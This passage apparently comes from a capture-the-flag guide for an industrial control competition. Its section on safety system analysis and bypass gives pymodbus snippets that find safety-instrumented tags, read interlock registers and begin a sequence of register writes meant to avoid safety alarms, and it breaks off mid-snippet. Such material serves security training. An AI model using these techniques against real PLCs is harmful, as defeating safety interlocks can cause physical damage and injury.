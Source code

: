 ## 7. Safety System Analysis and Bypass

The OT Cup objective requires triggering the PORV flag, which likely involves bypassing safety systems.

- **Safety System Identification**:
  - Look for redundant control systems
  - Identify safety instrumented systems (SIS) separate from main control
  - Recognize safety-critical tags (often prefixed with "SIS_" or "SAFETY_")
  - **Example (Identifying Safety Tags via Modbus)**:
    ```python
    from pymodbus.client.sync import ModbusTcpClient
    import re
    
    client = ModbusTcpClient('<plc_ip>')
    # If tag names are available through some means
    safety_tags = [tag for tag in all_tags if re.search(r'(safety|SIS|protect|interlock|PORV)', tag, re.IGNORECASE)]
    client.close()
    ```

- **Safety Interlock Analysis**:
  - **Approach**: Identify conditions that prevent unsafe operations
    ```python
    # Example: Monitoring safety interlocks via Modbus
    from pymodbus.client.sync import ModbusTcpClient
    
    client = ModbusTcpClient('<plc_ip>')
    # Read safety interlock registers (example addresses)
    safety_interlocks = client.read_holding_registers(address=2000, count=10)
    print("Safety Interlocks:", safety_interlocks.registers)
    client.close()
    ```
  
- **Bypass Strategies**:
  - **Sequential Manipulation**: Change parameters in the correct sequence to avoid triggering safety alarms
    ```python
    # Example: Sequential manipulation of related parameters
    from pymodbus.client.sync import ModbusTcpClient
    import time
    
    client = ModbusTcpClient('<plc_ip>')
    
    # Step 1: Modify auxiliary parameter first
    client.write_register(address=<auxiliary_param>, value=<new_value>)
    time.sleep(60)  # Wait for system to stabilize
    